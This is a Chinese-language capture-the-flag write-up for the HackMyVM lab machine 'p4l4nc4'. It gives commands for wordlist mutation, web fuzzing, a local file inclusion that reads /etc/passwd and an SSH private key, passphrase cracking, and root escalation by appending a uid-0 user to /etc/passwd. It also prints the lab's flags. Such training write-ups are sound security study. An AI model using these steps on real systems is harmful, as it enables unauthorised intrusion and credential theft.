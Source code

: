 # p4l4nc4

2025.03.17 https://hackmyvm.eu/machines/machine.php?vm=p4l4nc4

[video](https://www.bilibili.com/video/BV1LSXKYEE79/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

看到虚拟机上显示的用户名 4ng014

web 上只找到了http://192.168.5.39/robots.txt 使用 cewl 将它的单词拉取下来，将单词字典作为目录再次扫描 web，但是什么都没有。

使用字典爆破一下上面的用户 ssh 密码，但是没戏。

同时发现用户名使用的是 1337 format 格式(把拉丁字母转变成数字或是特殊符号)，可能字典密码中也需要进行这样处理，爆破之后也还是没戏:

```
o -> 0
l -> 1
e -> 3
a -> 4
s -> 5
g -> 6
t -> 7
i -> 1

cat pass.txt|sed -e 's/a/4/g' -e 's/e/3/g' -e 's/i/1/g' -e 's/l/1/g' -e 's/o/0/g' -e 's/s/5/g' -e 's/t/7/g' | tr '[:upper:]' '[:lower:]' | sort | uniq > new_pass
```

再用这个字典扫描一下 web 目录，发现 http://192.168.5.39/n3gr4/ 使用同样的字典对这个目录进行扫描，发现 http://192.168.5.39/n3gr4/m414nj3.php 可能缺少参数，使用字典 /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt 进行探测，发现 page 参数，看参数的名字像是存在 LFI，读取下/etc/passwd 文件，可以读取:

```
curl http://192.168.5.39/n3gr4/m414nj3.php?page=/etc/passwd

p4l4nc4:x:1000:1000:p4l4nc4,,,:/home/p4l4nc4:/bin/bash
```

在使用常见的 /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt 进行探测，access.log 等日志文件都不能读取。

看看 p4l4nc4 这个用户的私钥能不能读取，果然能读取到 /home/p4l4nc4/.ssh/id_rsa , 拿到私钥之后，使用 ssh 登陆，但是私钥有密码，使用 john + rockyou 得到密码 friendster ，再次 ssh 登陆输入私钥密码。

拿到了 user flag:

```
p4l4nc4@4ng014:~$ cat user.txt
HMV{6cfb952777b95ded50a5be3a4ee9417af7e6dcd1}
```

枚举，发现 /etc/passwd 文件可写，直接新建一个超级用户：

```
openssl passwd -1 -salt new 123

echo 'admin:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

切换到 admin 用户输入密码 123 拿到 root flag:

```
root@4ng014:~# cat root.txt
HMV{4c3b9d0468240fbd4a9148c8559600fe2f9ad727}
```
